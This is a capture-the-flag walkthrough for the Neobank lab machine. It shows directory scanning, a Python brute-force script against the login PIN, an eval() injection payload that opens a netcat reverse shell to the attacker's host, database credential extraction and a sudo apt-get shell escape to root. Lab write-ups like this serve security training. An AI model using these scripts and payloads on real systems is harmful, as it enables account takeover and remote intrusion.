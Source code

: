 ```yaml
---
layout: post
title:  "Neobank"
categories: [vulnhub,hackmyvm]
tags: [bruteforce, cookie, OTP, database]
---
```


You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/neobank-1,642/`
Also to HackMyVm `https://hackmyvm.eu/machines/machine.php?vm=Neobank`

##  Youtube Video

<iframe width="700" height="415" src="https://www.youtube.com/embed/kxbu7R75AxQ" frameborder="0" allowfullscreen></iframe>

## Directory Scan

```sh
gobuster dir -k -u http://10.0.2.121:5000/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

{% highlight sh %}
  /login
  /logout
  /otp
  /qr
  /withdraw
  /email_list
{% endhighlight %}

## Retreive emails

- Under the `/email_list` you can retrieve the emails

```sh
zeus@neobank.vln
hera@neobank.vln
apollo@neobank.vln
athena@neobank.vln
poseidon@neobank.vln
ares@neobank.vln
artemis@neobank.vln
demeter@neobank.vln
aphrodite@neobank.vln
dionysos@neobank.vln
hermes@neobank.vln
hephaistos@neobank.vln
```

## Brute force

- Creating the `pins` wordlist using `rockyou.txt`

```
cat /usr/share/wordlists/rockyou.txt | grep "^[0-9]" > pins.txt
```

- bruteforce script

{% highlight python %}
import requests
import sys
url = 'http://10.0.2.121:5000/login'
with open('/home/alienum/Desktop/emails.txt') as users:
  for u in users:
    with open('/home/alienum/Desktop/pins.txt') as pins:
       for p in pins:
          user = {"email":u.strip(),"pin":p.strip()}
          r =  requests.post(url,data = user)
          if len(r.cookies) != 0:
             print('~~~~~~~~~~~~~~~~~~~')
             print('Credentials found!!')
             print('~~~~~~~~~~~~~~~~~~~')
             print('[+] Username : '+ u.strip())
             print('[+] Password : '+ p.strip())
             sys.exit()
{% endhighlight %}

- Run it
```
┌──(alienum㉿kali)-[~]
└─$ python3 neobank-bf.py
[+] Username : zeus@neobank.vln
[+] Password : 2*****
```

## OTP google authenticator

- Scan the qrcode and insert the otp code

## Exploit eval() python function

```
__import__('os').system('nc -e /bin/sh 10.0.2.15 4444')
```

#### MySQL enumeration find banker credentials

{% highlight sh %}
  cat /var/www/html/main.py
  banker:neobank1
  mysql -u banker -pneobank1
  use bank;
  select * from system;
  banker:adv1se.me
{% endhighlight %}

## GTFObins

- sudo -l

{% highlight sh %}
  sudo apt-get changelog apt
  !/bin/sh
{% endhighlight %}

- This vm created by me, i enjoyed the process
